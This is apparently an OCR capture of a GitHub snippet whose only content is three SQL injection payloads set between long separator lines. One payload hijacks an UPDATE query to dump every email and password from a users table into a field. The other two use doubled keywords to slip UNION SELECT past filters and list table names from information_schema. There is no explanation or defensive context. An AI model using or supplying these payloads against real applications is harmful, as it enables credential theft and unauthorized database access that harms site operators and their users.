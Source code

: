 -=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=-

', last_reset=CONCAT(?, (SELECT GROUP_CONCAT(email, password SEPARATOR ' ') from (SELECT * FROM users) AS userscopy)), reset_actor=? where email=? -- )

-=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=-

a" uunionnion seselectlect 1,(selselectect table_name from information_schema.columns where column_name like '%period%'),3,4,5,6,7,"8

-=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=-

a" uunionnion seselectlect 1,(selselectect group_concat(table_name) from information_schema.columns where column_name like '%a%'),3,4,5,6,7,"8

-=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=-



-=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=-



-=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=-



-=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=-



-=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=-



-=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=-



-=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=-



-=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=-



-=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=-



-=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=-


